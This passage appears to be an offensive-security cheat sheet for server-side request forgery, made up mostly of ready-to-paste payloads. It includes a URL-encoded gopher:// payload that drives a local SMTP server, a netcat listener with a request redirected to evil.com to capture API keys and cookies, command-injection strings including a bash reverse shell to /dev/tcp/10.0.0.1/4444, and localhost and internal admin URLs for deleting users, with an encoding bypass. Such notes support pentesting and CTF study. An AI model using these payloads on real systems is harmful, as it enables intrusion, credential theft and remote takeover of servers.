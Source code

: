 The payload above can be URL encoded with tools such as **CyberChef**.  Then the encoded payload is as follow.

```bash
gopher://127.0.0.1:25/_MAIL%20FROM:%3Cjohn@example.com%3E%0ARCPT%20TO:%3Cmike@example.com%3E%0ADATA%0AFrom:john@gofer.htb%0ASubject:Test%0AHi,%20I'm%20not%20hacker.%0A.
```

We can use it to SSRF.

```bash
?url=gopher://127.0.0.1:25/_MAIL...
```

<br />

## Listen HTTP Request

If the website is vulnerable to SSRF, we can fetch sensitive information in HTTP request by sniffing.  
First off, start a listener in local machine.

```bash
sudo nc -lvp 80
```

Then send request that is affected by SSRF.

```bash
https://example.com/mail?server=http://evil.com
```

See the HTTP request in local machine.  
We might be able to fetch the sensitive data such as API key, Cookie, etc.

<br />

## OS Command Injection

```bash
?url=http://127.0.0.1:3000/test;whoami
?url=http://127.0.0.1:3000/test;ping+-c+1+10.0.0.1
# Reverse Shell
?url=http://127.0.0.1:3000/;bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"
```

<br />

## Admin Operations

We may be able to operate significant stuff as the admin user via local server.

```sh
# Localhost
?url=http://localhost/admin
?url=http://localhost/admin/delete?username=john
?url=http://127.1/%25%36%31dmin

# Backend URL (e.g. 192.168.0.x)
?url=http://192.168.0.23/admin
?url=http://192.168.0.23/admin/delete?username=john
```
